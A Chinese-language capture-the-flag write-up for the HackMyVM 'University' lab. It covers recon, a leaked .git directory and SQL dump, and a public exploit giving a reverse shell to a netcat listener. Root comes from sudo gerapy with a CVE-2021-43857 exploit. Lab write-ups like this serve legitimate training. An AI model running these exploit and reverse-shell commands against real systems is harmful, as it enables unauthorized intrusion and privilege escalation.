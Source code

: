 # University

2025.01.03 https://hackmyvm.eu/machines/machine.php?vm=University

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

发现 http://192.168.5.40:80/.git/ ，拉取信息，但是什么都没看到，只有一个 index 文件，但是能看到之前有的文件名信息:

```
python3 ~/Documents/GitHack/GitHack.py http://192.168.5.40:80/.git/
```

根据上面 git 导出的 index，发现 sql 文件：http://192.168.5.40:80/oas.sql 其中发现了管理员账号：

```
INSERT INTO `t_admin` (`ad_id`, `ad_name`, `ad_pswd`, `ad_eml`) VALUES
('AD00000001', 'admin', 'admin', 'admin@gmail.com'),
('AD00002', 'Dilraj', 'QCoxFrwx', 'dilrajkaur18@gmail.com');
```

但是登陆都不成功。

再次观察 nmap 扫描结果，发现这个源码来自 https://github.com/rskoolrash/Online-Admission-System 先搜索看看有没有现成的 exp：

```
nc -lvnp 8888

python3 50623.py -t 192.168.5.40 -p 80 -L 192.168.5.3 -P 8888
```

得到了反弹的 shell。

进行枚举，得到了 sandra 用户的密码:

```
www-data@university:~/html$ cat /var/www/html/.sandra_secret
Myyogaiseasy
```

切换到该用户后，得到了 user flag：

```
sandra@university:~$ cat user.txt
HMV0948328974325HMV
```

sudo -l 发现：(root) NOPASSWD: /usr/local/bin/gerapy 存在 cve 进行利用，使用这个 exp https://github.com/LongWayHomie/CVE-2021-43857：

```
sudo gerapy init
sudo gerapy migrate
sudo gerapy createsuperuser  # 创建用户名： admin  输入密码：admin  上面exp中默认是用的就是admin:admin
mkdir /home/sandra/projects
sudo gerapy runserver 0.0.0.0:8080
```

执行反弹 shell：

```
python3 cve-2021-43857.py -t 192.168.5.39 -p 8080 -L 192.168.5.3 -P 8888
```

最终得到 root flag：

```
root@university:~# cat root.txt
cat root.txt
HMV1111190877987HMV
```
